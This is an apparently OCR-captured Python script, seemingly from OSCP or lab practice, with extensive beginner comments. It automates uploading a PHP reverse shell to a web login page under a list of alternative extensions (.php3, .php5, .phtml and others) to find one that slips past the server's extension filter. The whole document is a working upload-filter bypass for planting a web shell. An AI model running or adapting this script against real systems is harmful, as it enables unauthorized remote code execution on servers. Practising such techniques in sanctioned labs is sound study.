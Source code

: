 ```text
#!/usr/bin/env python

#plan this program from beginning to end and parsing for the library syntax

import requests #library for making HTTP requests, module that defines functions and classes that help in opening URLs
import os # library for interacting with the operating system, module provides portable way of using OS dependent function

#import OS
ip = "10.10.83.93" #ip of machine
url = f"http://{ip}:3333/internal/index.php" #login page, f is a formatted sting literal, stings that contain replacement fields delimited by {}, they're expressions evaluated at runtime

old_filename = "/home/slickmmarek/Documents/OSCP/shareFolder/php-reverse-shell.php" #path of reverse shell to test

# requests to upload a file
filename = "/home/slickmmarek/Documents/OSCP/shareFolder/php-reverse-shell"		#set to variable which is the prefix of the tested extensions, in order to quickly rename and test shell extensions
extensions = [				#tested extensions array
	".php",
	".php3",				#array[], arguements/parameters(), input {}
	".php4",
	".php5",
	".phtml",
]

#from source URL page, form action = index.php, method = post, enctype = multipart/form-data
# <input> type = file, name = file, id = file

for ext in extensions:						# for loop to keep testing which extension(s) can be uploaded, ext is counter, in is operator to match within data type

	new_filename = filename + ext 			# forms which extension of the reverse shell works
	os.rename(old_filename, new_filename)	#renames the file after testing. uses the rename() method apart of the os class. Methods are actions that objects (variables) of a class are able to perform, a noun to a verb are variables (objects) to methods. 


# HTTP has set of request methods that indicate a desired action for a given resource
# below is a POST multipart encoded file that simplifies the upload process, we know we need this from the source html
# requests to upload a file and encode URL, as they can only be sent using ASCII characters.
# per the html source of the upload page, the name of the argument that the page inputs is "file"
# below is synatx from ref page, requests sends a mutlipart form POST Body with the "file" set to the contents of new_filename, the same "file" that is input from the source page
	files = {"file": open(new_filename, "rb")}	 #r means read the file while b is the binary. rb means read binary. open () is built in function to read files in the same directory
	r = requests.post(url, files=files)	#this is the line that actually uploads the file to the url, the post method accepts the url and the intended files to be the variable files

	if "Extension not allowed" in r.text:	# if loop to test which are allowed, r.text is a text encoding guessed by the requests library 
		print(f"{ext} not allowed")			#formatted string literal in if statement, 
	else:
		print(f"{ext} seems to work")	

	old_filename = new_filename			#resets the file name after resetting from os.rename
```
